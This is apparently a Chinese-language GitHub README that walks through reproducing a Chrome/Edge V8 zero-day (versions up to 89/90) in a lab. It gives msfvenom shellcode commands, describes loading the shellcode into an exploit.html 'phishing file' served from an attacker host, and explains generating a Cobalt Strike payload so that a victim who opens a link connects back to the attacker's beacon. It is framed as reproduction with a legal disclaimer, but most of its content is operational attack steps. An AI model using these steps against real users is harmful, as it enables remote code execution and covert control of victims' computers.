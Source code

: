 # Chrome-0day
## 漏洞介绍

Google Chrome是由Google开发的免费网页浏览器。经测试，此漏洞影响 Chrome 最新正式版（89.0.4389.128）以及基于Chromium内核的Microsoft Edge正式版（89.0.774.76）。攻击者可通过构造特制web页面并诱导受害者访问来利用此漏洞获得远程代码执行。

Chrome一直是很多用户使用的浏览器，最新出来了一个Chrome 0Day](https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247493386&idx=1&sn=168b3a6d23acb04b144bbc4e0ec44e8a&scene=21#wechat_redirect) ，然后我这边已经成功复现，配合这个0day，可以执行任意命令，不过前提条件是需要chrome开启--no-sandbox无沙盒模式，我们可以生成一个链接让受害者点击直接上线Cobalt Strike。

## 影响范围

Google Chrome <= 89.0.4389.128

基于Chromium内核的Microsoft Edge <= 89.0.774.76

其他基于V8引擎的浏览器

目前最新版90.0.4430.72 (正式版本)也受影响。

## 漏洞复现过程

测试环境：

靶机

IP：192.168.43.233

Windows 10 x64

Chrome 90.0.4430.72 (正式版本)

攻击机

IP：192.168.43.232

MacBookPro MacOS Big Sur 版本 11.2.3

Cobalt Strike 4.2

## 1. 执行系统命令

### 1.1 生成shellcode代码

#### 弹出计算器的shellcode生成命令：

**64位操作系统：**

```
msfvenom -a x64 -p windows/x64/exec CMD="calc" EXITFUNC=thread -f num
```

**32位操作系统：**

```
msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num
```

*（当然也可以换成其他系统命令，注意这里的架构要和浏览器所在操作系统的保持一致，一般为64位）*

### 1.2 制作html钓鱼文件


将生成的代码放入exploit.html中shellcode[]中。

#### 1.2.1 方式一

浏览器关闭沙盒并打开网页，可以看到已经成功执行计算器命令。

```
"C:\Program Files\Google\Chrome\Application\chrome.exe" --no-sanbox file:///C:/chrome0day/exploit.html
```
<img src="$imgs/image-20210419212729010.png" alt="image-20210419212729010" style="zoom:50%;" />

#### 1.2.2 方式二

在攻击机当前目录下用python或kali自带的apache2开启一个http服务。

python3.x版本：

```
python3 -m http.server 80
```

python2.x版本：

```
python -m SimpleHttpServer 80
```

apache2

```
sudo systemctl start apache2
```

用关闭沙盒的Chrome浏览器访问以下链接，可以看到已经成功执行计算器命令。

http://192.168.43.232/exploit.html

<img src="$imgs/image-20210419213214973.png" alt="image-20210419213214973" style="zoom:50%;" />

### 1.2.3 关闭沙盒方法：

**命令方式：**

chrome.exe --no-sandbox

**手动方式：**

在快捷方式属性中目标后面添加" --no-sandbox",注意引号后有一个空格。

<img src="$imgs/image-20210419212821226.png" alt="image-20210419212821226" style="zoom:33%;" />



## 2. 利用Cobalt Strike 上线

### 2.1 Cobalt Strike开启监听

**2.1.1 启动服务端：**

```
sudo ./teamserver 192.168.43.232 1234
```

![image-20210419204459251]($imgs/image-20210419204459251.png)

出现以上页面说明启动成功。

**2.1.2 启动客户端：**

<img src="$imgs/image-20210419204751453.png" alt="image-20210419204751453" style="zoom:50%;" />

**2.1.3 启动监听器：**

<img src="$imgs/image-20210419210046476.png" alt="image-20210419210046476" style="zoom:50%;" />

### 2.2 Cobalt Strike生成payload

**2.2.1 按照以下步骤生成payload.c文件，注意这里勾选x64。**

<img src="$imgs/image-20210419210123713.png" alt="image-20210419210123713" style="zoom: 33%;" />

<img src="$imgs/image-20210419210355208.png" alt="image-20210419210355208" style="zoom: 33%;" />

**2.2.2 用notepad++打开payload.c文件，ctrl+H替换"\\"为",0"，点击全部替换。**

![image-20210419210638146]($imgs/image-20210419210638146.png)

**2.2.3 将引号里的代码复制到exploit.html文件的shellcode[]中，注意：shellcode[]没有换行，包括所有代码都是在一行的。**

![image-20210419212051276]($imgs/image-20210419212051276.png)

**2.2.4 打开没有开启沙盒的Chrome浏览器访问：http://192.168.43.232/exploit.html**

![image-20210419210849819]($imgs/image-20210419210849819.png)

**2.2.5 查看Cobalt Strike 即可上线成功，进入beacon，可以执行命令等等。**

![image-20210419210953419]($imgs/image-20210419210953419.png)



**至此Chrome-0day复现完成，仅供参考，严禁非法破坏他人系统，严格遵守《中华人民共和国网络安全法》，如有违反，后果自负，与作者无关。**